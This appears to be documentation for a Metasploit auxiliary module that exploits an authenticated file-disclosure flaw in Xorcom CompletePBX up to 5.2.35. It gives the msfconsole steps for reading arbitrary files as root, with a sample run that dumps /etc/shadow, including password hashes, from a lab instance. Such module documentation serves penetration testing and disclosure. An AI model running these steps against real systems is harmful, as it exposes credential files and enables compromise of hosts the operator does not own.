 ## Vulnerable Application

This Metasploit module exploits an **Authenticated File Disclosure** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue arises due to improper handling of user-supplied input
in the **core download functionality**, allowing an attacker to read arbitrary files on the system with **root privileges**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use auxiliary/admin/http/xorcom_completepbx_file_disclosure
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Specify the file to read:
```
set TARGETFILE /etc/shadow
```
7. Execute the module:
```
run
```
8. If successful, the contents of the specified file will be displayed.

## Options

### USERNAME

Admin username for authentication.

### PASSWORD`

Admin password for authentication.

### TARGETFILE

Path of the file to retrieve (Base64-encoded in request).

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 auxiliary(scanner/http/xorcom_completepbx_file_disclosure) > run http://192.168.1.32/
[*] Running module against 192.168.1.32
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Attempting to read file: /etc/shadow (Encoded as: ,L2V0Yy9zaGFkb3c=)
[+] Content of /etc/shadow:
root:$y$j9T$/vXScZij/ykAtLtP9H1nQ/$KK43hfpOrxdZwAZljjvS5dnF0ipg8NqpCOj9gbLJ9OA:19829:0:99999:7:::
daemon:*:19829:0:99999:7:::
bin:*:19829:0:99999:7:::
sys:*:19829:0:99999:7:::
sync:*:19829:0:99999:7:::
games:*:19829:0:99999:7:::
man:*:19829:0:99999:7:::
lp:*:19829:0:99999:7:::
mail:*:19829:0:99999:7:::
news:*:19829:0:99999:7:::
uucp:*:19829:0:99999:7:::
proxy:*:19829:0:99999:7:::
www-data:*:19829:0:99999:7:::
backup:*:19829:0:99999:7:::
list:*:19829:0:99999:7:::
irc:*:19829:0:99999:7:::
_apt:*:19829:0:99999:7:::
nobody:*:19829:0:99999:7:::
systemd-network:!*:19829::::::
systemd-timesync:!*:19829::::::
messagebus:!:19829::::::
avahi-autoipd:!:19829::::::
sshd:!:19829::::::
pbx:$y$j9T$u6FpdD4iJVvFEqtUSAoFP/$P5iBn5ljpYEwcuXj4F9n6SBlMgWyxjqBDK82ija9Te5:19829:0:99999:7:::
mysql:!:19829::::::
postfix:!:19829::::::
tcpdump:!:19829::::::
Debian-snmp:!:19829::::::
_chrony:!:19829::::::
dnsmasq:!:19829::::::
polkitd:!*:19829::::::
asterisk:!:19829::::::
cc-cloud-rec:!:19829::::::
[*] Auxiliary module execution completed
```

### Impact

- This vulnerability grants **full read access to system files as root**.
- Attackers can retrieve **hashed passwords, SSH keys, and configuration files**,
leading to **privilege escalation** and potential full system compromise.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
